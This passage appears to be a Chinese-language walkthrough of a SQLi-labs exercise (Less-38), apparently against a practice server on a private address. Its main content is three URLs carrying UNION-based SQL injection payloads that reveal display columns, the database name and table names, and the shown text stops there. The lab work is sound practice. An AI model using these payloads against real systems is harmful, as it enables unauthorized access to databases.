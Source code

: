 正常页面显示

![image-20220601102218720.png](assets/1706846040-75af789f69224c8cb05b092aa3ed9b47.png)

参数后面添加单引号报错，使用上面的联合查询走一遍

![image-20220601102419270.png](assets/1706846040-9c583567911c824fb878a7f8434d51a7.png)

看一下显示位

```bash
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,3%20--+
```

![image-20220601102604976.png](assets/1706846040-af1ae55740a3de4959070da70aa60bb4.png)

查询一下数据库表名

```bash
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,database()%20--+
```

![image-20220601102720653.png](assets/1706846040-ccf87fb9e59e968dacabcee56681b184.png)

查询一下表名，共有 4 个表

```bash
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20--+
```
